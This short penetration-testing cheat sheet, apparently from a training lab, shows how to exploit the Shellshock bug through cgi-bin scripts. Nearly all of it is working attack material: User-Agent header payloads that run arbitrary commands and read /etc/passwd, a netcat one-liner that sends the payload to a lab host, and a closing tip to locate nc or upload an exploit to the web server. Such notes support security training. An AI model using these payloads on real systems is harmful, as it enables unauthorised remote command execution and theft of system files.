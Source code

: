 ## When you have a call to cgi-bin

- Modify a header in burp, for example user-agent:
`User-Agent: () { :;}; echo $(</etc/passwd)`
`User-Agent: () { :;}; <command_here>` (your command may not be echoed back, or you can have a 500 internal error but it worked).

- Or directly : `echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: ptl-f9988b7c-3e5ecaaf.libcurl.so\r\nConnection: close\r\n\r\n" | nc ptl-f9988b7c-3e5ecaaf.libcurl.so 80`

- Try to find the path of nc, or upload your exploit on the webserver. 